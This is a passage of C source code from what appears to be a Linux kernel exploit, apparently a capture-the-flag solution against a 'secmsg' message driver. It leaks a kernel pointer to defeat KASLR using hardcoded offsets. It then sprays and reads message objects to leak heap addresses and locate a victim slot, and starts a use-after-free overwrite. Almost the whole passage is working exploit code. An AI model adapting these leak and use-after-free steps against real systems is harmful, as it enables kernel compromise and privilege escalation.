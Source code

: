 ```c  

   kaslr_leak = ((uint64_t*)buf2)[3];

   printf("[*] kaslr_leak : 0x%lx\n", kaslr_leak);

   if ((kaslr_leak & 0xffffffff00000fffULL) == 0xffffffff00000968ULL) {  
       kaslr_base = kaslr_leak - 0x1275968;  
       printf("[*] kaslr_base : 0x%lx\n", kaslr_base);  
   } else if ((kaslr_leak & 0xffffffff00000fffULL) == 0xffffffff00000860ULL) {  
       kaslr_base = kaslr_leak - 0x1275860;  
       printf("[*] kaslr_base : 0x%lx\n", kaslr_base);  
   } else {  
       delete_secmsg(leak_idx);  
       exit(1);  
   }

   sleep(2);

   delete_secmsg(leak_idx);

   puts("[+] freed");  
   sleep(1);  
   /* */

   /*  
       Leak heap  
   */  
   for (int i = 0; i < 7; i++) {  
       *((uint32_t*)buf) = i;  
       add_secmsg(buf, 0x100, 1001 + i);  
   }

   for (int i = 0; i < 7; i++) {  
       read_secmsg(i, buf2, 0x200 - 44);  
       read_secmsg(i, buf2, 0x100);

       q1 = ((uint64_t*)buf2)[0];  
       heap_leak_1 = ((uint64_t*)buf2)[1];  
       heap_leak_2 = ((uint64_t*)buf2)[2];

       if (q1 == 0x0000000fffffffe0ULL &&  
           heap_leak_1 == heap_leak_2  &&  
           ((heap_leak_1 & 0xffff000000000000) == 0xffff000000000000)) {  
           found = 1;  
           victim_idx = ((uint32_t*)buf2)[11];  
           printf("[*] heap leak 1 : 0x%lx\n", heap_leak_1);  
           printf("[*] heap leak 2 : 0x%lx\n", heap_leak_2);  
           printf("[*] victim idx : %d\n", victim_idx);  
           hexprint(buf2, 0x100);  
           break;  
       }  
   }

   if (!found)  
       err_exit(1, "no heap leak");

   sleep(3);  
   /* */

   /*  
       UAF and overwrite work  
   */  
   memset(buf, 0x44, sizeof(buf));
```